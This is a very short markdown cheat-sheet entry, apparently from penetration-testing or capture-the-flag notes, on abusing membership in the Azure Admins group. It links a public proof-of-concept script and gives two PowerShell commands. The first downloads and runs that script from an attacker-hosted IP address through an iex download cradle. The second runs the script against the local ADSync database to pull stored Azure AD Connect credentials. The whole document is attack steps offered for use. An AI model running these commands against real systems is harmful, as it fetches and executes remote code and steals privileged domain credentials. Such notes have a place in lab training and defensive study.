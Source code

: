 # Azure Admins

Exploit with [this](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) poc.

```powershell
# Download script
iex((new-object net.webclient).downloadstring("http://10.10.14.209/Azure-ADConnect.ps1"))

# Execute script
Azure-ADConnect -server 127.0.0.1 -db ADSync
```
